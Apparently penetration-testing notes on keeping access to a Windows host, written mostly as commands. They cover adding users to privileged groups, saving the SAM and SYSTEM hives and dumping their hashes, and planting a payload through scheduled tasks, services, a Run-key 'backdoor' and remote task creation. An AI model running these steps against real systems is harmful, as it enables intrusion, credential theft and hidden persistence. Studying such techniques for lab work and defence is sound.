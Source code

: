 ```yaml
---
title: Persistence
description:  Common ways for the attacker to remain on the system after initial access
---
```


## Assign Group Memberships

Assuming you have successfully cracked the passwords for the unprivileged accounts in use, the direct way to make an unprivileged user gain administrative privileges is to make it part of the Administrators group

```cmd
C:\> net localgroup administrators user0 /add
C:\> net localgroup "Backup Operators" user1 /add
C:\> net localgroup "Remote Management Users" user1 /add
```

This can also be done by exporting the current configuration to a temporary file and opening the file and add our user to the lines in the configuration regarding the SeBackupPrivilege and SeRestorePrivilege

```cmd
secedit /export /cfg config.inf
```
Then, convert the .inf file into a .sdb file which is then used to load the configuration back into the system:
```cmd
secedit /import /cfg config.inf /db config.sdb
secedit /configure /db config.sdb /cfg config.inf
```
### Special privileges

In the case of the Backup Operators group, it has the following two privileges assigned by default:
- SeBackupPrivilege: The user can read any file in the system, ignoring any DACL in place.
- SeRestorePrivilege: The user can write any file in the system, ignoring any DACL in place.

To open the configuration window for WinRM's security descriptor, you can use the following command in Powershell (you'll need to use the GUI session for this):
```powershell
Set-PSSessionConfiguration-Name Microsoft.PowerShell -showSecurityDescriptorUI
```

## WinRM

 - Ports: 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)

Windows Remote Management (WinRM) is a web-based protocol used to send Powershell commands to Windows hosts remotely.

To connect to a remote Powershell session from the command line, we can use the following command
```cmd
winrs.exe -u:Administrator -p:Mypass123 -r:target cmd

```
## Evil-WinRM

Evil-WinRM is a post-exploitation tool designed for ethical hacking and penetration testing, providing a streamlined and efficient way to interact with Windows systems via Windows Remote Management (WinRM)

### Usage
```bash
 evil-winrm -I 10.10.123.33 -u user1 -p Password321
```
To be able to regain administration privileges from your user, we'll have to disable LocalAccountTokenFilterPolicy by changing the following registry key to 1:
```cmd
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```
Then, proceed to make a backup of the SAM and SYSTEM files and download them to the attacker's machine:
```bash
*Evil-WinRM* PS C:\> reg save hklm\system system.bak
    The operation completed successfully.
*Evil-WinRM* PS C:\> reg save hklm\sam sam.bak
    The operation completed successfully.
*Evil-WinRM* PS C:\> download system.bak
    Info: Download successful!*
*Evil-WinRM* PS C:\> download sam.bak
    Info: Download successful!*
```
With those files, we can dump the password hashes for all users using secretsdump.py or other similar tools:
```bash
python3.9 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL
```

## Via Tasks

```cmd
schtasks /create /tn "SystemCleanup" /tr "C:\Users\Win10\Downloads\notmalware.exe" /sc daily /st 09:00 /ru SYSTEM
schtasks /query /fo LIST
schtasks /query /tn "SystemCleanup"
schtasks /query /tn "SystemCleanup" /v /fo LIST
```

## Via Services

#### Using SC (Service Control Manager)
```cmd
sc create BackupService binPath="C:\Users\Win10\Downloads\notmalware.exe" start= auto
sc query [(shows running)]
sc query state= all [(shows running & !running)]
sc query "BackupService"
sc qc [(query configuration of service)] "BackupService"
```
#### Using Powershell

```powershell
Get-Service
Get-Service | Where-Object { $_.Status -eq 'Running' }
Get-Service -Name "BackupService"
Get-Service -Name "B*" [(Wildcards)]
Get-Service -Name "BackupService" | Select-Object *

Get-WmiObject -Class Win32_Service -Filter "Name = 'BackupServce'" | Select-Object *
or
Get-CimInstance -Class Win32_Service -Filter "Name = 'BackupServce'" | Select-Object *
```
## Via Registry

#### Using SC (Service Control Manager)
```cmd
reg query "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run"
reg query "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce"
reg query "HKLM\Software\Microsoft\Windows\CurrentVersion\Run"
reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce"

etc…
```
#### Using Powershell

```powershell
Get-ItemProperty -Path "Registry::HKCU\Software\Microsoft\Windows\CurrentVersion\Run"
Get-ItemProperty -Path "Registry::HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce"
```
## Backdoor after initial access

```cmd
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "NotABackdoor" /t REG_SZ /d "C:\Users\Win10\Downloads\notmalware.exe" /f 
```

## Create Tasks Remotely

Since the system will run the scheduled task, the command's output won't be available to us, making this a blind attack.

Examples from THM
```cmd
schtasks /s TARGET /RU "SYSTEM" /create /tn "THMtask1" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00 
schtasks /s TARGET /run /TN "THMtask1"

// Cleanup 
schtasks /S TARGET /TN "THMtask1" /DELETE /F
```
```cmd
C:\> sc.exe \\thmiis.za.tryhackme.com create hourglass9 binPath= "%windir%\myservice.exe" start= auto
C:\> sc.exe \\thmiis.za.tryhackme.com start hourglass9
```